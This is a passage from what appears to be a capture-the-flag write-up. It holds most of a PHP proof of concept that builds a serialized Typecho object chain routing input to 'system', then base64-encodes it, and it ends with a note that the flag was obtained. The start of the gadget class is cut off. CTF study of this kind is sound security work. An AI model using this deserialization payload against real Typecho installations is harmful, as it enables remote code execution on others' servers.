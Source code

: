 ```php
​    $this->_filter[0]='system';

​    

  }

}

class Typecho_Feed {

  const RSS2 = 'RSS 2.0';

  private $_type;

  private $_items;

  public function __construct(){

​    $this->_type=self::RSS2;

​    $this->_items[0] = array(

​      'category' => array(new Typecho_Request()),

​      'author' => new Typecho_Request(),

​    );

  }

}

$exp = array(

  'adapter' => new Typecho_Feed(),

  'prefix' => 'typecho_'

);

echo base64_encode(serialize($exp));

?>
```

 

拿到flag

![img](file:///C:\Users\zhangbb\AppData\Local\Temp\ksohtml23176\wps12.jpg) 
